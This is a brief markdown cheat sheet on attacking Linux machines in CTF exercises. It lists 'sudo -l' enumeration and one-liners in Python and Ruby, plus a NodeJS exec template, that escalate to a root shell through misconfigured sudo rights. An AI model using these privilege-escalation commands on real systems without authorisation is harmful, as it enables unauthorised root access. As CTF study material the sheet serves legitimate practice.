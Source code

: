# Attacking Linux Boxes

### Most Common CVEs used on CTFs
| # | CVE | Description |
| --- | --- | --- |

### Post Exploitation - Prev. Esculation

*Enumerate Misconfigured `sudo`*
Run this command to see what programs you has access to using sudo.
```
sudo -l
```

*Exploiting Misconfigured `sudo`*
| # | Language | Commands |
| 1 | Python | `sudo python3 -c 'import os; os.system("/bin/bash")'`
| 2 | Ruby | `sudo ruby -e 'system("/bin/bash")'` |
| 3 | NodeJS | `node -e '[...]()'` |

*NodeJS Privilage Exculation Script*
```Javascript
var exec = require('child_process').exec;
exec('[COMMAND]', function (error, stdOut, stdErr) {
console.log(stdOut);
});
```
